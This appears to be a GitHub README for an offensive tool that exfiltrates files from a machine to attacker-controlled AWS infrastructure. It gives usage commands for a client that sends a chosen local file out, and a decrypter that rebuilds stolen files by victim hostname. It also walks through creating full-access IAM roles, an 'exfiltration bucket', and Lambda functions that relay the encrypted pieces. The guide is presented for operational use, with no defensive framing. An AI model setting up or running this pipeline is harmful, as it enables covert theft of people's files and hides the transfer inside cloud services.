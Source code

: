# standaloneClient
## About
Check out how it works pdf for a general explanation on how the program functions.
## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

Modify first lines with required data. You will need  

- fernet_key (You will need the same key for the decrypter. The key can be generated in a separate script with `Fernet.generate_key()`)
- orchestrator_function_name (Remember it for later)
- aws_access_key_id
- aws_secret_access_key
- region_name

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
Modify first lines with required data. You will need  

- exfiltration_bucket_name

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

Modify first lines with required data. You will need  

- template_bucket_name
- compressed_function_name

Increase the timeout of this function to 1 minute and memory to 512MB  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

Modify first lines with required data. You will need  

- fernet_key
- aws_access_key_id
- aws_secret_access_key
- region_name
- exfiltration_bucket_name

